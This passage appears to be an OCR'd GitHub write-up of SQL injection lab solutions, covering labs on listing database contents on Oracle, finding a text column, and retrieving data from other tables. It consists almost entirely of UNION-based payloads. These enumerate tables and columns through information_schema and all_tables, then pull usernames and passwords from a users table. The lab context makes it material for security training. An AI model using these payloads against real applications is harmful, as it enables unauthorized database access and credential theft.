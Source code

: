 Retrieve the list of tables in the database and find the name of the table containing user credentials
```
' UNION SELECT table_name, null FROM information_schema.tables--
```

Replacing the table name to retrieve the details of the columns in the table:
```
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users_abcdef'--
```

Replacing the table and column names to retrieve the usernames and passwords for all users:
```
' UNION SELECT username_abcdef, password_abcdef FROM users_abcdef--
```


## **6. SQL injection attack, listing the database contents on Oracle**
```
' UNION SELECT 'a', 'b' FROM all_tables--
```

```
' UNION SELECT 'a', table_name FROM all_tables--
```

```
' UNION SELECT 'a', column_name FROM all_tab_columns WHERE table_name='USERS_EIEFAP'--
```

```
' UNION SELECT USERNAME_LFECQG, PASSWORD_MSPEUR FROM USERS_EIEFAP--
```


## **7. SQL injection UNION attack, finding a column containing text**
```
' UNION SELECT 'qHuBUo',null,null FROM information_schema.tables--
```

```
' UNION SELECT null,'qHuBUo',null FROM information_schema.tables--
```

```
' UNION SELECT null,null,'qHuBUo' FROM information_schema.tables--
```


## **8. SQL injection UNION attack, retrieving data from other tables**
```
' UNION SELECT null,null--
```

```
' UNION SELECT null, table_name FROM information_schema.tables--
```
